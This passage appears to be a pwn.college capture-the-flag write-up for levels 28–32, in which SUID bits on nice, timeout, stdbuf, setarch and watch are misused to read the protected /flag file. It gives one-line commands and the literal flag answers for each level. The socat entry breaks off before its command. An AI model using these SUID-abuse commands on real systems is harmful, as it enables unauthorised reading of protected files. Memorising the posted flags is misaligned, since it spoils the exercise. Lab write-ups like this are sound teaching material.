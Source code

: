 If I want to specify a different niceness value, I can use the -n option followed by the desired priority adjustment. For example, to run cat /flag with a niceness value of 15, I can use: `nice -n 15 cat /flag`

```bash
nice cat /flag
```

Level 28 - the SUID bit on /usr/bin/timeout

Answer: pwn.college{cDc6BkglFWPDbdwI7TMjNuTlWDn.0FM3EDL0MjM3QzW}

`timeout` runs a command with a time limit.

```bash
timeout 5 cat /flag
```

Level 29 - the SUID bit on /usr/bin/stdbuf

Answer: pwn.college{cR0TeJSB2raThFbiBIs87t63BuY.0VM3EDL0MjM3QzW}

`stdbuf` allows users to modify the buffering operation for the input/output streams. `stdbuf` is particularly useful when I need to monitor logs in real-time or minimize delays in data transmission between multiple programs. For example, buffering can introduce delays when the output of one program needs to be immediately processed by another program. By adjusting buffering with stdbuf, you can achieve faster data processing.

```bash
stdbuf -o0 cat /flag
```

Level 30 - the SUID bit on /usr/bin/setarch

Answer: pwn.college{AkH0h0pB9gMYhJU9YeUXv-WZ472.0lM3EDL0MjM3QzW}

`setarch` allows users to run a program with a modified architecture environment, which can be useful for testing software under different kernel and CPU settings.

```bash
setarch x86_64 cat /flag
```

Level 31 - the SUID bit on /usr/bin/watch

Answer: pwn.college{QH3lv5d6078FQQz0bjfYQhpRtke.01M3EDL0MjM3QzW}

`watch` is useful when I have to execute a command repeatedly and watch the command output change over time. For example, I can use the watch command to monitor the system uptime or disk usage.

In this command, I used -x option because I wanted to pass command to the exec.

```bash
watch -x cat /flag
```

Level 32 - the SUID bit on /usr/bin/socat

Answer: pwn.college{g6zmXWWESnZFPUaPUIsLlf1w-eP.0FN3EDL0MjM3QzW}

`socat` is allows users to transfer data bidirectionally between network connections.

In this command, I used `-u` option becuase I wanted data to flow from the first specified address and then used `STDIN` because I wanted to read the input.
